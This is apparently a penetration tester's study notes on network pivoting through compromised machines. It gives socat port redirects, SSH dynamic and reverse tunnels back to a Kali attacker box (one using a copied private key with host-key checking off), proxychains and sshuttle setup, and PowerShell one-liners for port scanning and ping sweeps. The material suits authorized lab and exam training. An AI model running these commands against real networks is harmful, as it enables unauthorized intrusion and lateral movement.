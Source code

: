 <% tp.file.rename("4_Pivoting_A-B")%>
# Port Redirect

\[Subnets\]                         WAN          |     Subnet  1     |      Subnet 2     |      Subnet 3
\[Hosts\]               Kali    --->   Machine A ---> Machine B ---> Machine C
\-
\[Simple\]                                        Socat                  Target
\[Local\]                                      SSH Client           SSH Server             Target
\[Remote\]     SSH Server          SSH Client              Target



### Simple static

```bash
socat -ddd TCP-LISTEN:2345,fork TCP:$hip:$hport
```
(Machine A)

Alternative with netcat: https://gist.github.com/holly/6d52dd9addd3e58b2fd5
Alternative requiring root rights: iptables


### Local Dynamic

```powershell
ssh -N -D 0.0.0.0:9999 $user_B@$ip_B
```
(Machine A)

### Remote Dynamic with ProxyChains and SSH
##### 1st Setup (kali machine)
SSH
```
ssh-keygen -t rsa -b 4096 -f ./id_rsa_kali
cat ./id_rsa_kali.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
ProxyChains
```bash
nano /etc/proxychains4.conf
```
> With it, tools that do not support socks proxys by default, can be made compatible with the tunnel IF they are (most) dynamically-linked binaries.
> For local redirects add `socks5 $hip 9999` to the end.
> For remote redirects use `socks5 127.0.0.1 9999`.
> If socks4 is required, UDP and IPv6 won't be supported.
##### Use it
(kali machine)
```bash
sudo systemctl start ssh
```
In use with port scanning, you might lower `tcp_read_time_out` and `tcp_connect_time_out` in `/etc/proxychains4.conf` to dramatically increase scanning speed.

(Machine A, interactive)
```bash
ssh -N -R 9999 kali@$ip_kali
```
or
(Machine A, non-interactive)
Copy the private key `/ftphome/id_rsa_kali` to machine A. Then, run the following on it:
```bash
ssh -f -q -o BatchMode=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa_kali -N -R 9999 kali@$hip
```

(kali machine)
`proxychains <command>` to start e.g. a nmap scan over the pivot
> Warning: It appears to then not use the IP-Addresses put into `/etc/hosts`

You can test the connection with `proxychains nmap -Pn $hip -p $hport`

### Remote Dynamic with sshuttle
> Requires python on machine A!

```bash
socat TCP-LISTEN:2222,fork TCP:$ip_B:22
```
(Machine A)

```bash
sshuttle -r $user_A@$ip_A:2222 $subnet_2 $subnet_1
```
(kali machine)



# Windows specific

Enable Telnet
```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```

Portscan LOLBAS
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$hip", $_)) "TCP port $_ is open"} 2>$null
```

Pingsweep LOLBAS
```powershell
workflow pingsweep { foreach -parallel ($computer in 1..254) { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$computer -Quiet) {echo "192.168.209.$computer"} {echo "nein"} } }; pingsweep
```

```powershell
1..254 | % { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$_ -Quiet) {echo "192.168.209.$_"}} 2>$null
```

```powershell
$(foreach ($computer in 1..254) { Start-Job -ScriptBlock { if ( Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$using:computer -Quiet ) {echo "192.168.209.$using:computer"} } }) | Receive-Job -Wait
```


For port forwarding techniques using the windows tools ssh.exe, plink, and netsh, consider the oscp manual